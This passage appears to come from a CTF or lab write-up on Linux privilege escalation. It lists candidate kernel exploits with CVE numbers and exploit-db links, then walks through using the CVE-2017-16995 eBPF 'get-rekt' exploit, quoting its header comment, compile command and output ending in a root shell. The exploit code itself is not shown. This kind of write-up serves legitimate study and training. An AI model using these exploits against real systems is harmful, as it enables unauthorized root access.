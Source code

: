   Possible Exploits
  [1] af_packet
      CVE-2016-8655
      Source: http://www.exploit-db.com/exploits/40871
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] get_rekt
      CVE-2017-16695
      Source: http://www.exploit-db.com/exploits/45010

```



## Exploitation

### Exploit

First exploit didn't work for me, second exploit needed x11 so I didn't even try. So let's try the third one.

Visit the link and read the comments in the code (how to use it, how to compile and things like that)

Open vim and paste the code into vim. I've named the file ```exploit.c```

```c
/*
  Credit @bleidl, this is a slight modification to his original POC
  https://github.com/brl/grlh/blob/master/get-rekt-linux-hardened.c
  
  For details on how the exploit works, please visit
  https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   
  Tested on Ubuntu 16.04 with the following Kernels
  4.4.0-31-generic
  4.4.0-62-generic
  4.4.0-81-generic
  4.4.0-116-generic
  4.8.0-58-generic
  4.10.0.42-generic
  4.13.0-21-generic

  Tested on Fedora 27
  4.13.9-300
  gcc cve-2017-16995.c -o cve-2017-16995
  internet@client:~/cve-2017-16995$ ./cve-2017-16995
  [.]
  [.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
  [.]
  [.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
  [.]
  [*] creating bpf map
  [*] sneaking evil bpf past the verifier
  [*] creating socketpair()
  [*] attaching bpf backdoor to socket
  [*] skbuff => ffff880038c3f500  
  [*] Leaking sock struct from ffff88003af5e180
  [*] Sock->sk_rcvtimeo at offset 472
  [*] Cred structure at ffff880038704600
  [*] UID from cred structure: 1000, matches the current: 1000
  [*] hammering cred structure at ffff880038704600
  [*] credentials patched, launching shell...
```